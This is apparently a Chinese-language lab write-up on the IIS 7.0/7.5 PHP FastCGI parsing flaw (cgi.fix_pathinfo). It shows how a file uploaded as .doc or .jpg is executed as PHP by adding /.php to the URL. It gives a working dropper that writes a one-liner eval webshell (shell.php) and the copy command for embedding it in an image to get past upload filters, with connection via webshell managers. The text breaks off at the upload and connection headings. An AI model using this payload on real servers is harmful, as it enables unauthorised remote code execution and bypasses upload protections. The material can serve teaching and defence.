 # IIS7.0/7.5解析漏洞

> IIS7.0/7.5本身没有解析漏洞，但是当IIS通过[FastCGI](https://baike.baidu.com/item/FastCGI)解析PHP语言时，由于FastCGI配置中的cgi.fix_pathinfo默认为1（即开启状态），导致在对文件进行解析时形成解析漏洞，因此，IIS7.0/7.5解析漏洞实际上是PHP FastCGI解析漏洞

## 漏洞原理

> 如果IIS7.0/7.5通过FastCGI的方式支持PHP解析，当访问`http://172.16.16.24/index.jpg/xx.php`时，$fastcgi_script_name会被设置为 `index.jpg/xx.php`，如果开启cgi.fix_pathinfo，PHP会认为SCRIPT_FILENAME是`index.jpg`，而`xx.php`是PATH_INFO，所以就会将`index.jpg`作为PHP文件来进行解析，从而形成解析漏洞

:pencil:**Thinking**  

> 通过上传点，上传一个包含木马的任意格式的文件，在菜刀连接时或者解析时，在完整访问路径下添加`/*.php`（无论`*.php`文件是否存在），该文件就会以PHP的形式进行解析

## 测试环境

- **操作系统**：Windows Server 2008 R2
- **应用服务**：IIS 7.5
- **解析语言**：PHP 7.2.17
- **测试时间**：2019/4/25

## 测试过程

### 0x01 漏洞测试

> 在IIS服务器下上传一个phpinfo文件，并以`.doc`命名

```php
<?php phpinfo();?>
```

![iis7.5_0005](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0005.PNG)

> 在浏览器中访问如下路径，以`.doc`命名的PHP文件正常解析

```http
http://172.16.16.24/a.doc/.php
```

![iis7.5_0001](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0001.PNG)

:pencil:**Thinking**  

> 此处对`.doc`、`.jpg`、`.txt`、`.asp`等格式的PHP文件进行了测试，均存在该解析漏洞

### 0x02 漏洞利用

> 通过上传点，上传一个图片木马，然后访问该图片木马，让其在本目录下生成一个shell.php，通过该方法可以绕过上传白名单检测，文件内容检测

**制作图片木马**

> 一张正常图片b.jpg和一个内容如下的a.txt

```php
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>
```

:pencil:**Thinking**  

> 该PHP的意义是：当该PHP文件解析时，会在相同目录下生成一个包含一句话木马的shell.php文件，其中写入的一句话木马可以根据实际环境进行修改。本实验采用的PHP版本大于7，在PHP7之后的版本，PHP语言做了更改，很多函数无法使用，所以PHP小于7的木马文件在本环境中很可能无法使用，并且菜刀在实现文件管理器的时候用的是assert函数，这导致菜刀没办法在PHP7上正常运行，由于蚁剑没有用到assert函数，所以本测试使用蚁剑作为一句话木马的文件管理器。

> 使用cmd中的copy命令生成图片木马，将文本写入图片的二进制代码之后，避免破坏图片头和尾

```
copy b.jpg/b + a.txt/a ab.jpg
```

![iis7.5_0002](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0002.PNG)

**文件上传和解析**




**蚁剑连接**


































